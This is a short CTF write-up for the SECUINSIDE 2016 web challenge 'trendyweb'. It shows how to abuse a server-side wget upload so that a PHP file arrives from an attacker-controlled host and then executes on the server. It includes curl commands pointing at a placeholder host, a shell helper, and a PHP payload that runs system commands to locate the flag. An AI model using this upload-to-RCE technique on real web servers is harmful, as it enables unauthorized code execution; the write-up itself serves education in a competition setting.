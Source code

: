 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/07/10/secuinside-ctf-trendyweb/
date: "2016-07-10T14:32:36+09:00"
tags: [ "ctf", "writeup", "web", "php" ]
"target_url": [ "https://ctftime.org/event/335" ]
---
```


# SECUINSIDE CTF Quals 2016 web100: trendyweb

This CTF was diffcult, and it seemed to be not well-prepared. I want to see the graph of the number of problems.

Our team could solve only this.
But, considering the solved numbers, we needed to solve also `CYKOR_0000*`s and `noted`.

## solution

Upload your `.php` as `avatar.png%3fhoge.php` into the `/data/$sessId/` directory and execute it on the server.


You can upload files via the `system('/usr/bin/wget '.escapeshellarg($origUrl));`.
Make `http://your-host.example.com/avatar.png?foo.php` returns something, and call:

``` sh
$ curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?foo'
```

This makes the file on `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo`.
So if you use `image='http://your-host.example.com/avatar.png?foo.php`, it becomes `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo.php` and this is executed on the server when you request it.

This is enough to see the flag.
Define a utility function and explore it, you will found the executable which has the flag.

``` sh
execute_php() {
    cat > path/to/avatar.png
    key=$RANDOM
    curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?'$key'.php'
    curl -D- 'http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3f'$key'.php'
}
```

``` php
<?php
system('id', $retval);
system('pwd', $retval);
system('ls -l /', $retval);
system('stat /flag_is_heeeeeeeereeeeeee', $retval);
system('/flag_is_heeeeeeeereeeeeee', $retval); // => flag
?>
```
